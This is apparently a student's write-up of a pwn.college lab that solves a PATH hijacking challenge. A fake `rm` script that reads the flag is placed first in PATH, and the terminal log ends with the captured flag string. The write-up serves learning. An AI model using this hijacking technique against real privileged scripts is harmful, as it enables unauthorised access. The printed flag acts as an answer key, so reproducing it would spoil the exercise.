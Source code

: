 # Hijacking commands
## INTRODUCTION 
In the 4th challenge, we had to create a command `rm` that will give the flag instead of deleting it when we run `/challenge/run`.We can do this by making a duplicate shell script in the home directory named `rm` which will not delete the flag but will `cat` it.So i wrote `nano rm` to create a shell script in the home directory named `rm` then i wrote `/bin/cat /flag `in the `rm` file and saved it.
Then i updated the `PATH` variable to `/home/hacker` so that when the `/challenge/run` is envoked, it doesnt go to the original `rm` command and delete the flag but go to the `rm` shell script that i created which will `cat` the flag.Then i envoked the `/challenge/run` to get the flag.
## CODE
``` bash
Connected!
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod u+rwx rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{kTwG3Wxj7heNvssZpRpDnuZ_Pr6.ddzNyUDL4YDN0czW}
```
## RESOURCES
none
## REMARK
i didnt include the lines where i added the commands `/bin/cat /flag` in the `rm` shell script because they were in the nano text editor.
